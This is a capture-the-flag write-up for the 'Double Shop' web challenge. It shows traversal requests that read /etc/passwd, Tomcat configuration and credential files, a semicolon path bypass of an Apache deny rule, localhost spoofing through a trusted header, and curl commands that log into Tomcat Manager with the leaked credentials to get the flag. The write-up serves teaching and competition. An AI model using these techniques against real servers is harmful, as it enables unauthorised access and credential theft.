


# Double Shop
- Category: web
- Solves: 156
- Author: inn3r

## Description
> Welcome to the Double Shop!
> 
> Kety & Tom have finally launched their new vending system, but the selection is... underwhelming. With only a few snacks and drinks available, the shelves feel empty.
> 
> If you want to suggest new products or expand the inventory, you’ll need to speak directly with the Manager. However, he is a peculiar character and notoriously hard to reach. He is known for playing double games and hiding behind a system that isn't always what it seems. Many have tried to knock on his door, only to be turned away without explanation. He enjoys the ambiguity of his own rules.
>
>The question is... can you reach him?

## Details

The application presents a simple vending machine interface. Reviewing the frontend source code, specifically `/assets/vendor.js`, reveals two backend JSP endpoints:

`POST /api/checkout.jsp`: handles purchases and generates receipt logs.

`GET /api/receipt.jsp?id=<file>`: renders the content of receipt files.

Accessing `/api/manager` directly results in a **403** Forbidden error, confirming the existence of a protected "Manager" interface mentioned in the challenge description.

## Solution

### 1) Vulnerability Discovery: Path Traversal & LFI

The *id* parameter in `receipt.jsp` is vulnerable to [**Path Traversal**](https://portswigger.net/web-security/file-path-traversal#what-is-path-traversal). The server concatenates user input to a base path without any sanitization:

```Java
String basePath = System.getProperty("catalina.base") + "/logs/receipts/";
File file = new File(basePath + receiptId);
```
By requesting `GET /api/receipt.jsp?id=../../../../../etc/passwd`

we can confirm an **arbitrary file read** as it returns the system's password file.


---

### 2) use LFI for Configuration Leakage

After confirming LFI, we targeted Tomcat config files.

#### 2.1 `tomcat-users.xml` (credentials leak)

```
GET /api/receipt.jsp?id=../../../tomcat/conf/tomcat-users.xml
```

Recovered credentials:

- username: `adm1n`
- password: `317014774e3e85626bd2fa9c5046142c`
- role: `manager-gui`

#### 2.2 `server.xml` (proxy trust issue)

```
GET /api/receipt.jsp?id=../../../tomcat/conf/server.xml
```

The configuration reveals a **RemoteIpValve**:

`RemoteIpValve` allows Tomcat to process proxy headers (such as the client’s original IP address).

```xml
<Valve className="org.apache.catalina.valves.RemoteIpValve"
       internalProxies=".*"
       remoteIpHeader="X-Access-Manager" />
```
- `internalProxies=".*"`: Tomcat trusts any IP address to provide identity headers.

- `remoteIpHeader="X-Access-Manager"`: Tomcat uses this custom header to determine the client's IP. This allows for trivial **IP Spoofing**

#### 2.3 context.xml (Access Restrictions)

Targeting the Manager app context `GET /api/receipt.jsp?id=../../webapps/manager/META-INF/context.xml` :

```xml
<Valve className="org.apache.catalina.valves.RemoteAddrValve"
       allow="127\.\d+\.\d+\.\d+|::1|0:0:0:0:0:0:0:1" />
```
This confirms that the Manager is restricted to localhost access only.

---

### 3) Bypassing the Proxy: Path Normalization Mismatch

Direct access to `/api/manager` is blocked by the proxy (Apache). 

```conf
<Location "/api/manager">
    Require all denied
</Location>
```



However, we can exploit a **normalization inconsistency** involving [Matrix URIs](https://www.w3.org/DesignIssues/MatrixURIs.html) (W3C standard) using the semicolon (`;`).

So we use this path normalization trick.

Using:

- `/api/manager;/html`

showed Tomcat Manager responses instead of the same static frontend block.

This indicates a **front/back routing mismatch**:

- The proxy blocks normal manager path.
- Semicolon path form (`;`) reaches Tomcat backend manager logic.

> [!NOTE] Path Parameter & Mapping Inconsistency
> According to the Matrix URI specifications (W3C), the semicolon (;) is used to delimit path parameters. There is an inconsistency between how reverse proxies (Apache) and backends (Tomcat) interpret this character:
>
> - Apache (frontend): They often treat `;` as a literal character in the path. If the blocking rule is set to `/api/manager`, the request `/api/manager;/` does not match the pattern and is forwarded.
>
>- Tomcat (backend): It treats `;` as the beginning of Path Parameters. During normalization, Tomcat truncates the string at the first ; in order to identify the servlet or context. As a result, `/manager;/html` is internally interpreted as `/manager/html`.

Other References:
[Semantics of semicolons in URIs - StackOverflow](https://security.stackexchange.com/questions/251723/semicolons-relation-with-reverse-proxy)

---

### 4) Bypassing Manager IP Restriction

Using the `X-Access-Manager` header discovered in `server.xml`, we can spoof our IP to match the localhost requirement:

```
X-Access-Manager: 127.0.0.1
```
- Without header on `/api/manager;/html` -> `403 Access Denied`
- With header -> `401 Unauthorized` (now IP check passed, we need auth)

## Final Exploit

To gain access, we combine the path bypass, IP spoofing, and the leaked credentials. Basic Authentication is required:

$$\text{Authorization: } \underbrace{\text{Basic}}_{\text{Schema}} \space \underbrace{\text{Credentials}}_{\text{Base64 String}}$$

Execution via Curl:

```shell
curl -i -sS \
  -H 'X-Access-Manager: 127.0.0.1' \
  -u 'adm1n:317014774e3e85626bd2fa9c5046142c' \
  'http://doubleshop.challs.srdnlen.it/api/manager;/html'
```

or 

```shell
curl -i -sS \
  -H 'X-Access-Manager: 127.0.0.1' \
  -u 'adm1n:317014774e3e85626bd2fa9c5046142c' \
  'http://doubleshop.challs.srdnlen.it/api/<anything>/..;/manager/html'
```

Upon successful login, we inspect the application list in the Tomcat Manager dashboard. One deployed context path contains the flag:

`/srdnlen{d0uble_m1sC0nf_aR3_n0t_fUn}`

## Unintended Solutions: `/proc` leak
The challenge could also be solved by exploring the Linux `/proc` filesystem via the LFI:

- **Environment Leak**: Accessing `/proc/self/environ` or `/proc/self/cmdline` provided the backend paths and logging configurations.

- **File Descriptors**: Accessing `/proc/self/fd/x` (specifically `fd/7`) allowed for real-time reading of the Tomcat Access Logs.

- **Log-based Flag Leak**: The log format `{prefix}.YYYY-MM-DD.log` led to a custom log prefix. The log entries contained a reference to a directory created during deployment that featured the flag in its name.

## Summary

| Component | Vulnerability / Info | from |
| :--- | :--- | :--- |
| **Entry Point** | **path traversal** (LFI) | `receipt.jsp` |
| **Bypass Proxy** | **normalization inconsistency** (`;`) | `/api/manager;/html` |
| **IP Spoofing** | **custom trusted header** | `server.xml` (`X-Access-Manager`) |
| **Target IP** | **localhost restriction**  | `context.xml` (`127.0.0.1`) |
| **Credenziali** | **information leak** | `tomcat-users.xml` (`adm1n:317014774e3e85626bd2fa9c5046142c`) |

## Flag
`srdnlen{d0uble_m1sC0nf_aR3_n0t_fUn}`
